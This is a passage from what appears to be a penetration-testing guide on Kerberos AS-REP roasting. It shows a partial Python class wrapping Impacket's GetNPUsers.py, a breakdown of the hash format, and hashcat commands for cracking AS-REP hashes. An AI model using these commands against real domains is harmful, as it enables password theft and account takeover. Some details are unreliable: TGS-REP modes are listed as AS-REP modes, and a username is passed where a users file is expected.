 ```python
            cmd += f" -dc-ip {self.dc_ip}"
        
        # Execute and parse results
        # Implementation...
    
    def roast_user(self, username):
        """Attempt AS-REP roasting for specific user"""
        cmd = f"GetNPUsers.py {self.domain}/ -no-pass -usersfile {username}"
        # Implementation...
    
    def mass_roast(self):
        """Perform mass AS-REP roasting"""
        if self.userlist:
            with ThreadPoolExecutor(max_workers=10) as executor:
                futures = [executor.submit(self.roast_user, user) for user in self.userlist]
                # Process results...
```

---

## 7. Hash Cracking and Analysis

### Hash Format Analysis

#### Identifying Hash Types
```bash
# Hashcat hash type identification
hashcat --example-hashes | grep -i kerberos
hashcat --example-hashes | grep -i asrep

# Common AS-REP hash modes
# 18200: Kerberos 5, etype 23, AS-REP
# 19600: Kerberos 5, etype 17, TGS-REP
# 19700: Kerberos 5, etype 18, TGS-REP
```

#### Hash Structure Breakdown
```
$krb5asrep$23$username@DOMAIN.COM:$salt$encrypted_data
│          │  │                    │     │
│          │  │                    │     └─ Encrypted portion (contains session key)
│          │  │                    └─ Salt value
│          │  └─ Username and domain
│          └─ Encryption type (23 = RC4-HMAC)
└─ Hash identifier
```

### Hashcat Cracking Techniques

#### Basic Hashcat Commands
```bash
# Dictionary attack with common passwords
hashcat -m 18200 hashes.txt rockyou.txt

# Rule-based attack
hashcat -m 18200 hashes.txt rockyou.txt -r best64.rule

# Mask attack for known password patterns
hashcat -m 18200 hashes.txt -a 3 ?u?l?l?l?l?l?d?d

# Combination attack
hashcat -m 18200 hashes.txt wordlist1.txt wordlist2.txt -a 1
```
